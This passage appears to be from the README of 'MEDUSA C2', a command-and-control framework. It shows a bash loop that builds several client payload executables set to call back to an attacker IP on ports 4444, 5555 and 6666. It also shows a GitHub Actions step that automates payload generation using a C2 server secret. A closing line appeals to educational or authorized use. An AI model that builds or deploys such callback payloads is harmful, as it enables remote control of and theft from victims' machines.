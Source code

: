 Generate multiple payloads with different configurations:

```bash
# Create multiple variants
for port in 4444 5555 6666; do
    python builder.py --type python --ip 192.168.1.100 --port $port --output client_$port --build-exe
done
```

### Automation

Integrate with CI/CD pipelines for automated payload generation:

```yaml
# Example GitHub Actions workflow
- name: Generate Payloads
  run: |
    python builder.py --type python --ip ${{ secrets.C2_IP }} --port 4444 --build-exe
```

## Support

For issues, questions, or contributions:
- Review the MEDUSA C2 documentation
- Check the troubleshooting section
- Ensure proper educational/authorized use context